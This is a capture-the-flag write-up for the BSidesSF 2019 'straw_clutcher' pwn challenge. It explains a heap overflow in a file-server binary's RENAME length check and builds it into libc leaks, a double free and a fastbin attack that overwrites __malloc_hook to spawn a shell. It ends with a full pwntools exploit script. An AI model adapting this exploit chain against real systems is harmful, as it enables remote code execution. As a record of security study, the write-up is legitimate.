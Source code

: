 # BSidesSF 2019 CTF

## straw_clutcher

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 400 | 4 | [merrychap](https://github.com/merrychap)

**Description:** 

> Location - straw-clutcher-717c5694.challenges.bsidessf.net:4321

**Files:**

[straw-clutcher](./straw-clutcher)

## General information

The binary was really crazy for pwn challenge :D

There are a lot of code, but if you spend enough time on it, then it wouldn't be a problem to find the bug. But first things first.

## Reversing the binary

<p align="center">
  <img src="screens/beginning.png">
</p>

So, there is a global buffer for user input which is allocated on a heap. After we input data, it's compared in some obfuscated way with characters. I will not cover reverse part here, because it's not very complicated and you can do it by your own. Most of the code here is different input validations, so this is not very interesting

The binary is kinda file transfer server and there are several actions we can produce (all "files" are memory structures and not the "real" files):

- `PUT [FILENAME] [FILE SIZE]` - creates a file with the specified filename and size. After this, we read data into the created file.

- `RENAME [OLD FILENAME] [NEW FILENAME]` - rename a file

- `DELE [FILENAME]` - delete specified file. It also frees the data that were allocated for this file

- `RETR [FILNAME]` - print file's data

- `TRUNC [FILENAME] [NEW SIZE]` - truncates the size of a specified file.

Okay, you can play now with the server to understand the functionality more deeply.

By the way, files are basically linked-list and each file has a pointer to the previous file structure. Hence, when it iterates through the files, it starts with the last one and goes up to the first.

## Vulnerability

After looking around the code searching for the vuln I found some interesting place in `RENAME` function:

<p align="center">
  <img src="screens/vuln.png">
</p>

First of all, we check `old_name` length and force it can't be longer than `0x1f`. And then the same for `new_name`, but... We check `old_name` again instead of `new_name` length. That's the vuln - __heap overflow__.

Now, let's explore the file structure (I suppose everything should be clear):

```c
struct file_t {
    char filename[0x20];
    unsigned long file_size;
    char *data;
    long dummy; /* it's not used as I understood */
    struct file_t *prev_file;
};
```

So, by overflowing filename we can overwrite `file_size, `data` and `prev_file` fields. 


## Leaking addresses

First of all, we want to leak some addresses, so let's start with `file_size`. By writing some big number into `file_size` and then calling `RETR` we can leak everything on the heap below the current chunk. Libc address can be leaked by creating unsorted bin chunk below the target chunk and heap addresses can be leaked by just creating some new file below the target. Cool, we have `libc` and `heap` addresses.

## Spawning the shell

I forgot to say that there are some constraints on the filename, namely, `[A-Za-z0-9]+.[A-Za-z0-9]{3}` or something like this.

My main target was overwriting `__malloc_hook` with `one_gadget`, so we need to achieve fastbin attack. To do this, double free will be the best choice. When we delete a file something like this happens:

```c
free(file->data);
free(file);
```

So we can try to create a fake chunk `fake_file` where `fake_file->data` will point to some freed chunk with `0x70` size. Hence, it's double free and fastbin attack can be performed.

Let's consider some `file` structure. To create a fake chunk we can overwrite lsb of `file->prev_file` to point to `file->data` which we control without any constraints. To do this, we need that lsb of `file->data` will satisfy constraints on a filename.

If everything is okay, then we can produce typical fastbin attack with overwriting `__malloc_hook`.

## Exploit

The final exploit is as follows (I added some comments to make it more readable):

```python
from pwn import *


def main():
    libc = ELF('./libc-2.23.so')
    pc = remote('straw-clutcher-717c5694.challenges.bsidessf.net', 4321)

    pc.sendline('PUT AAA.EXE 10')
    pc.send('A' * 10)

    pc.sendline('RENAME AAA.EXE BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.sendline('PUT CCC.EXE 128')
    pc.send('C' * 128)
    pc.sendline('PUT DDD.EXE 10')
    pc.send('D' * 10)

    pc.sendline('DELE CCC.EXE')

    # overwriting file->file_size with 0x4141
    pc.sendline('RETR BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.recvuntil('200 File download started. Prepare to get 16705 bytes')
    data = pc.recvuntil('Data transferred!')
    good_slice = data[100:209]
    
    libc_base = u64(good_slice[-24:-16]) - 0x3c4b78
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    __free_hook = libc_base + libc.symbols['__free_hook']
    heap = u64(good_slice[-48:-40])

    log.success('libc base @ ' + hex(libc_base))
    log.success('heap @ ' + hex(heap))
    log.success('__free_hook @ ' + hex(__free_hook))
    log.success('__malloc_hook @ ' + hex(__malloc_hook))

    #################################################
    #################################################

    # creating a fake file structure chunk
    pc.sendline('PUT EEE.EXE {}'.format(0x48))
    pc.send(p64(0x4848482e484848) + p64(0) * 4 + p64(0x68) + \
        p64(heap + 0x250) + p64(0) + p64(heap + 0x190)) # -0x23

    
    # make two freed 0x70 chunks
    pc.sendline('PUT TTT.TTT {}'.format(0x68))
    pc.send('T' * 0x68)
    pc.sendline('PUT KKK.KKK {}'.format(0x68))
    pc.send('K' * 0x68)
    pc.sendline('DELE TTT.TTT')
    pc.sendline('DELE KKK.KKK')

    # overwrite lsb of file->prev_file
    pc.sendline('RENAME EEE.EXE ' + 'E' * 7*8 + 'EEEEE.EXP')
    
    # and clear already freed 0x70 chunk
    pc.sendline('DELE HHH.HHH')

    pc.sendline('PUT LLL.LLL {}'.format(0x68))
    pc.send(p64(__malloc_hook - 0x13) + 'K' * 0x60)
    pc.sendline('PUT MMM.MMM {}'.format(0x68))
    pc.send('M' * 0x68)
    pc.sendline('PUT NNN.NNN {}'.format(0x68))
    pc.send('N' * 0x68)

    one_gadget = 0x4526a

    # allocate file->data above of __malloc_hook
    # and write one_gadget into this
    pc.sendline('PUT OOO.OOO {}'.format(0x68))
    pc.send('AAA' + p64(libc_base + one_gadget) + 'O' * (0x60-3))

    # trigger malloc
    pc.sendline('PUT JJJ.JJJ 8')

    pc.interactive()


if __name__ == '__main__':
    main()
```

After running this exploit we've got:

<p align="center">
  <img src="screens/final_shell.png">
</p>

> Flag: CTF{hoisting_the_flag}

Flag is not really interesting, but the challenge was pretty good!